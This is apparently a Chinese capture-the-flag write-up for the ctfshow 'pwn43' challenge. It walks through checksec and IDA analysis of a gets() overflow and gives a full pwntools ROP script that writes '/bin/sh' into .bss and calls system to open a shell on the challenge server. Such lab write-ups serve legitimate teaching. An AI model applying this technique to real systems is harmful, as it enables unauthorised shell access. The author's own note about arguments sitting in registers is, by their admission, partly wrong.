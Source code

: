```
tasike@tasike-VM:~/Desktop$ chmod 777 pwn43
```

```
tasike@tasike-VM:~/Desktop$ file pwn43
pwn43: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=235861daf6a3307cbe3e097d1329e001a84c7b83, not stripped
```

```
tasike@tasike-VM:~/Desktop$ checksec pwn43
[*] '/home/tasike/Desktop/pwn43'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

32bit，堆栈不可执行

`ida`查看

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init();
  logo();
  ctfshow();
  return 0;
}
```

跟进`ctfshow`

```c
char *ctfshow()
{
  char s[104]; // [esp+Ch] [ebp-6Ch] BYREF

  return gets(s);
}
```

> `s`与`ebp`距离`0x6C`

有`_system`函数

```c
// attributes: thunk
int system(const char *command)
{
  return system(command);
}
```

没有`/bin/sh`字符串

但是可以注意`bss段`有一个`buf2`

```
.bss:0804B060                               public buf2
.bss:0804B060 ??                            buf2 db    ? ;
.bss:0804B061 ??                            db    ? ;
.bss:0804B062 ??                            db    ? ;
.bss:0804B063 ??                            db    ? ;
.bss:0804B064 ??                            db    ? ;
```

> 我们向程序中`bss段`的`buf2`处写入`/bin/sh`字符串，并将其地址作为`system`的参数传入

payload的大致：
```python
payload = [填充] + p32(gets) + p32(pop_ebx) + p32(buf2) + p32(system_addr) + [4bytes填充] +p32(buf2)
#1.填充后溢出，执行gets函数，接收数据
#2.将数据从栈中弹出存入寄存器ebx中
#3.再用缓冲区指针buf2指向寄存器ebx的数据
#4.调用system函数，参数为buf2所指数据，即gets接收的数据
```

查看`pop|ret`

```
tasike@tasike-VM:~/Desktop$ ROPgadget --binary pwn43 --only "pop|ret"
Gadgets information
============================================================
0x0804884b : pop ebp ; ret
0x08048848 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x08048409 : pop ebx ; ret
0x0804884a : pop edi ; pop ebp ; ret
0x08048849 : pop esi ; pop edi ; pop ebp ; ret
0x080483f2 : ret
0x0804856e : ret 0xeac1

Unique gadgets found: 7
```

> 用第4行和第6行都行，因为都是对于一个参数的，具体为什么这里用寄存器来，请见文章最后



编写`attack43.py`

```python
from pwn import *
context(os = 'Linux', arch = 'i386', log_level = 'debug')
r = remote('pwn.challenge.ctf.show', 28262)
gets = 0x08048420
popebx = 0x08048409  # popebp = 0x0804884b
buf2 = 0x0804B060
system = 0x08048450
payload = cyclic(0x6C + 0x4) + p32(gets) + p32(popebx) + p32(buf2) + p32(system) + p32(0) + p32(buf2)
r.sendline(payload)
r.sendline("/bin/sh")
r.interactive()
```

> 在32位中，参数和返回值直接就存在栈中，但对于payload中有多个函数时，如果不是最后一个函数，则需要将其参数用寄存器来保存【目前我试过的寄存器都可以，只要参数个数和控制到的寄存器一致就行】【8月13日补充，尽管上述想法能让我们正确做出题目，但关于参数的说法还是不太妥当，首先32位中参数是保存在栈上的，而非寄存器上。其次这个理论也不能解释其他的能打通的payload，如下面pwn43这个也能打通：cyclic(0x6c + 4) + p32(gets) + p32(system) + p32(buf2) + p32(buf2)，这个则可以通过填充返回值来理解，也确实合理】【但我做题还是会用32位寄存器的思想，直到我有一天题目没打通，那么我会再次回来修改文章】








